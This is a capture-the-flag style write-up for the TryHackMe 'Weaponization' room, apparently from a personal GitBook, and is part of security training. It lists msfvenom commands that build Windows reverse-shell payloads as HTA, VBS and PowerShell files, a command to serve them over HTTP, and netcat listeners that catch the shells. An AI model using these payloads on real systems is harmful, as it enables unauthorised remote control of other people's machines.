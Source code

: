 # Weaponization

**Room Link:** [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)



## Practice Area

**From the room:** The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

We will be exploiting this box with every mentioned above.&#x20;

### HTA

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o thm.hta
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### VBS

**Kali #1**

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f vbs -o exploit.vbs
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### DOC

Do when have access to a Windows machine with word.

### PS1

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f psh -o exploit.ps1
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
